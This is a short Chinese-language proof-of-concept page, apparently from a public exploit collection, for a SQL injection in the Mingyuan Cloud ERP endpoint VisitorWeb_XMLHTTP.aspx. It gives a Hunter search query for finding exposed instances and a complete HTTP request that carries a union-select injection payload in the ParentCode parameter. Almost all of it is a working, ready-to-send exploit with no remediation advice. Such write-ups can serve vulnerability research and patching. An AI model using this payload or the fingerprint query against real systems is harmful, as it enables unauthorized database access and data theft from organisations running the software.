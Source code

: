 # 明源云ERP接口VisitorWeb_XMLHTTP.aspx存在SQL注入漏洞

明源云ERP是一款专门为房地产行业设计的企业资源计划（ERP）系统。它旨在帮助房地产公司更有效地管理其业务流程，从项目开发到销售，再到售后服务。该系统集成了财务管理、项目管理、合同管理、采购管理、销售管理等多个模块，提供端到端的解决方案。该系统某接口存在SQL注入漏洞，该漏洞可以直接执行SQL语句并且回显到数据包中。

## Hunter

```javascript
app.name="明源云 ERP"
```

## poc

```javascript
GET /CgZtbWeb/VisitorWeb/VisitorWeb_XMLHTTP.aspx?ywtype=GetParentProjectName&ParentCode=1%27+union+select+sum(3233*3323)--+z HTTP/1.1
Host: 192.168.10.2:9061
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411071134231.webp)



## 漏洞来源

- https://mp.weixin.qq.com/s/XmuRwFH1c3uE4bgb73QKsQ